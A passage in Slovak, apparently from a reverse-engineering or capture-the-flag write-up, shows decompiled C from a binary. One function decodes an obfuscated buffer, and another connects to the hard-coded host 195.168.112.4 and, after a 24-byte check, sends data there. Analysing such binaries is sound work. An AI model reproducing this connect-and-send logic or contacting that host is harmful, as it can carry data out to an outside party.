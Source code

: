 Tu som preklikal všetko, vyzerá tona nejake obfuskovacie funkcie a len posledná `FUN_00102030` niečo volá ďalej..

```c

void FUN_00102030(void)

{
  long lVar1;
  long lVar2;
  
  lVar2 = (long)DAT_00105200;
  DAT_00105200 = DAT_00105200 + 1;
  lVar1 = (long)DAT_00105200;
  (&DAT_00105220)[lVar2] = -*(char *)(DAT_00105260 + lVar2) - 0x10U ^ 0x5c;
  (&DAT_00105220)[lVar1] = 0;
  FUN_00101f50();
  return;
}


```

Táto teda volá `FUN_00101f50`, tak idem dnu.

```c
void FUN_00101f50(void)

{
  char *__buf;
  int __fd;
  int iVar1;
  long lVar2;
  size_t __n;
  ssize_t sVar3;
  sockaddr local_28;
  
  __fd = socket(2,1,0);
  if (-1 < __fd) {
    local_28.sa_family = 2;
    local_28.sa_data[0] = 0x1b;
    local_28.sa_data[1] = 0x8c;
    iVar1 = inet_pton(2,"195.168.112.4",local_28.sa_data + 2);
    if ((0 < iVar1) && (iVar1 = connect(__fd,&local_28,16), __buf = DAT_00105260, -1 < iVar1)) {
      lVar2 = 0;
      do {
        if ((&DAT_00105220)[lVar2] != (&DAT_001050f0)[lVar2]) {
          return;
        }
        lVar2 = lVar2 + 1;
      } while (lVar2 != 24);
      __n = strlen(DAT_00105260);
      sVar3 = send(__fd,__buf,__n,0);
      if (-1 < sVar3) {
        FUN_00101e70();
        close(__fd);
        return;
      }
    }
    close(__fd);
  }
                    /* WARNING: Subroutine does not return */
  exit(1);
}

```
